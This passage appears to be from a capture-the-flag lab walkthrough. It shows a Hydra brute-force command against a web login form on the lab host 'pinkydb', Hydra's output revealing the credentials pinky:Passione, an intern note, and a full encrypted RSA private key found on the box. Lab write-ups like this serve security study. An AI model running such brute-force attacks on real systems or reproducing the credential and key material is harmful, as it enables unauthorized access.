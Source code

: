 Then passing both of these lists into Hydra:
```
hydra -L users.txt -P passwordlist.txt pinkydb -s 7654 -V http-form-post '/login.php:user=^USER^&pass=^PASS^&submit=Login:Invalid Username or Password!'
```
The username and password for the login was uncovered: 
```
---SNIP---
[ATTEMPT] target pinkydb - login "pinky" - pass "programma" - 211 of 215 [child 1] (0/0)
[7654][http-post-form] host: pinkydb   login: pinky   password: Passione
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-03-07 18:55:25
```

After using the credentials found ( pinky:Passione ) an SSH RSA key and note was revealed:

notes.txt
```
- Stefano
- Intern Web developer
- Created RSA key for security for him to login
```

id_rsa
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,BAC2C72352E75C879E2F26CC61A5B6E7

lyydl9wiTvUrlM7SXBKgMEP5tCK70Rce65i9sr7rxHmWm91uzd2GYBgSqGRIiPLP
hJdRi8HyRIz+1tf2FPoBvkjWl+WyRPpoVovXfEjL6lVvak6W1eNOuaGBjKT+8eaF
JC62d1ozuEM2eqpPcsVp8puwzP8Q77zYpZK9IOUo3xiupv4RrnBEGPYjaC1lLFRo
zlvUtoTnRQ0QCrjYuaL7EYQ1iBWoNc5ZMn1gqhBqQ/oE7/ff4eGhtG2i1LdscVf9
syk6ZBWFFA1wqlb2Vgv5Mn5BHx27GILo7o6yZzyxAuc02oJBnrg5Btlu/Tyx8ADV
ZR70DVA3q+/UoinxJCvH3zdKzOgzqHR9rdj5hiO6Np0Qzg//aWagrij5GqBpjCEt
aY2GxxXQQ8flNelYMvdcjHvZrjW8rKwU0nhyalu0+nFnLnHH6tMvAE6oqeIxIOO6
iJD7yUTrGfz0T7lRJQ7KQfeDQH+KGKgibLi60XWKQanRmrCiMLKnidLCjctyqsgh
lm5gPpqzw8CuPQ3EqPWIHYoDPak7Mk6SfpZaC+HQRauMbQqy5crP9YTtU1ZqRgdq
MsW7gnawwpTiE2cAR+AW9Cmy/n+cWoDvn+ceSrT1q81AjL1rKFSmwLWjKiKgJHER
Kv3zSMoBEzOGKAnQ5UOwOZPX+qQVGba+CJ2sZMdynd9HZrcMD29H4CLGO+VFggqs
3XUvpIcT4Arx9fVIk3hs6XeAnCOhj5f9Q2F4JnbqPdkQzBNJHCnrE8Rl4ymQl6lF
y/hvGWmDEtbockdNHGH9vF22kZuNmGKRROfYN5pmJYD9/L3RIvcC+UGDVojeUt/A
GDvjS8QhfNRwDUwTYHSUmIkz4fQt8g2bp3EixA/EH9IXV0HoBEtPzeaclqJJRBpW
WZK54Uj51hoqymDTfhS5HAwS6XaiN+SXyfXbZAqHMOTlegYNsGsYpGMXIB1oK+OL
lSwZimExQ042jVe4gxZ0ku3Qh/utmGUf3Rf7Ksng42tSt6uaVblXxO1JRPrI/ARt
5b7CjPBBZtIXUbtPF0/mw0q0tVZH/9BWjTvvAiMPlBvFwmujGKS+BA1krTz6YErY
ifoKTISVWsz7H1p4Xn1YD0sqfFtm2TSzsDj+x1Bpw4KXwquAoRfL61F6hVQKhyaV
8H6XaJCKuj8W2RhSe32pO7/MNYyCatZz5OtUt0XHYGf2EEOkihq8hecXpzHK0pnL
RcfhpffVDMjVV70Sl54WM9mqLHRzUWZZhAUehZkKrsou0LHoTrkWkYShrT1sc7uI
LoiicfuXpWegqXYKLSTY6YVn5iKov/eE3W3mxD/MIO4Fmi4VAcCp2EwXUlwQY8jI
839VYkApkA31uNNfp4GQw7ANqsopjN6bKIPpp8FVdCbgg7DlGZUuf/4cnXOc6gDA
K4+6vpcwC4AnJVsBfgjOmWajYple0zmDkQNkj+UptG8uC7VDwcd4FBfP+ISO1LID
MtLdf1/3qMbDQsqbdHXtZs2P84CvbJ2CPfHvTrG30JfXWuZoinMXtGwxY7x/IR0V
EHc/fHCThXM7op4q0MccCJPrhPIhwrM+dHasJGsmLlyy/Oe62c2Hx2Rh09xcU0JF
-----END RSA PRIVATE KEY-----
```
